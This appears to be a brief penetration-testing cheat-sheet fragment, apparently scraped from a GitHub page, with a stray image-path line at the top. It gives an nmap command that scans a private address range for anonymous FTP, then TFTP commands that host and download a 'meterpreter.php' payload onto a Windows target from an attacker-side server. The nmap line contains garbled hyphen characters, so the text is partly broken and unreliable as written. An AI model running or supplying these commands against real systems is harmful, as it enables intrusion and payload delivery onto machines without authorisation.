 # Scan for anonymous FTP

`nmap  -­v  -­p  21  -­­‐script=ftp-­‐anon.nse  192.168.11.200-254`

# Download with TFTP

`atftpd --daemon --bind-address 192.168.20.9 /tmp`
`tftp 192.168.20.9 get meterpreter.php C:\\tmp\\meterpreter.php`
